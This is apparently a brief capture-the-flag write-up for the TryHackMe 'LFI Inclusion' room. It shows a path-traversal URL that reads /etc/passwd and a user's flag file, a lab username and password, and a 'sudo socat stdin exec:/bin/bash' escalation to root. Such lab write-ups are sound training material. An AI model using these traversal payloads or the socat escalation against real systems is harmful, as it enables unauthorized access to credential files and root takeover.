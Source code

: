 ### LFI Inclusion TryHackMe

## Nmap scans

`Open ports:
22 		

80			## LFI attack
`

## Information collection
http://machineip/article?name=../../../../../../../../../../etc/passwd

We see a user named falconfeast. And we also have his password: 

___falconfeast: rootpassword___


##User Flag and Getting a shell
Now we can get the user flag using LFI like this:
http://machineip/article?name=../../../../../../../../../../home/falconfeast/user.txt

OR 

We can login to the machine which we will have to do it anyway.

## Priv-esc

We get the first flag from this.

now running `sudo -l` --> we see we can run /usr/bin/socat as root

So we go to gtfobins for sudo command to directly get root access.

sudo /usr/bin/socat stdin exec:/bin/bash

Now we can get the root flag.
